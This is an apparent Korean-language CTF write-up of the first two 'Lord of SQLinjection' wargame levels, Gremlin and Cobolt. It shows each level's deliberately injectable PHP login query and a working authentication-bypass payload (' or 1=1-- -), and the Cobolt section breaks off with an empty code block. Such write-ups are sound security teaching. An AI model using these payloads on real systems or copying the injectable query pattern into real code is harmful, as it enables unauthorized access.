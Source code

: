 ```yaml
---
title: [LOS] Writeup
description: Lord of SQLinjection
date: 2024-11-10 00:02:00 +09:00
last_modified_at: 2024-11-10 00:02:00 +09:00
categories: [Hacking, Web]
# toc: false 오른쪽에 있는 목차 비활성화
# comments: false 댓글 비활성화
tags:
  [
    Hacking,
    Database,
  ]
---
```

## Gremlin
가장 기본적인 SQL-i 공격 기법이다.
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```
### exploit
아무 필터링도 하지 않는 취약한 코드를 사용한다.<br>
'or 1=1을 입력하여 쿼리를 참으로 만드는데 성공했다.
```sql
select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'
-> select id from prob_gremlin where id='' or 1=1-- -' and pw='{$_GET[pw]}
payload=' or 1=1-- -
```
<br>

## Cobolt
```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```
### exploit
1번 문제와 다른 점은 pw를 md5를 사용해 암호화한다는 것과 조회된 id가 admin인지 확인한다는 것이다.
이 부분은 조회할 id를 admin으로 명시하고 pw 부분을 주석 처리하여 우회한다.
```sql
```